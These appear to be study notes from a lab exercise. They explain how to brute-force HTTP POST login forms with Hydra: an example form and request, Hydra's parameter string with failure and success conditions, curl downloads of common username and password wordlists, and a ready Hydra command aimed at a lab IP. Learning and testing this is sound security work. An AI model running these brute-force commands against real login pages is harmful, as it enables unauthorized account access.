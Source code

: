 ** Basic Login Form Example
```shell-session
<form action="/login" method="post">
  <label for="username">Username:</label>
  <input type="text" id="username" name="username"><br><br>
  <label for="password">Password:</label>
  <input type="password" id="password" name="password"><br><br>
  <input type="submit" value="Submit">
</form>
```
This send a POST request to the /login endpoint on the server
```shell-session
POST /login HTTP/1.1
Host: www.example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

username=john&password=secret123
```


## http-post-form
```shell-session
hydra [options] target http-post-form "path:params:condition_string"
```

** Failed attempt
```shell-session
hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:F=Invalid credentials"
```
- F indicates the failed attempt message (could be Invalid username or password, etc.)

** Successful attempt
```shell-session
hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=302"
hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=Dashboard"
```
- S indicates the success message (302 for successful login and redirect, Dashboard appearing on page, etc.)

** Use the inspect tool to find parameters and the network tool to see POST request

** Use a proxy when possible (BURP, ZAP)

## Constructing the param string for Hydra
- Form parameters: ^USER^ and ^PASS^ will be replaced with words from wordlist
- Additional fields: CSRF tokens
- Success Condition

```shell-session
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f IP -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
```


Exercise
- The login displays "Invalid credentials" on a failed attempt
- Request is being sent to '/' meaning the root endpoint
- The form data is 'username' and 'password'
Therefore, the param string will be "/:username=^USER^&password=^PASS^:F=Invalid credentials"
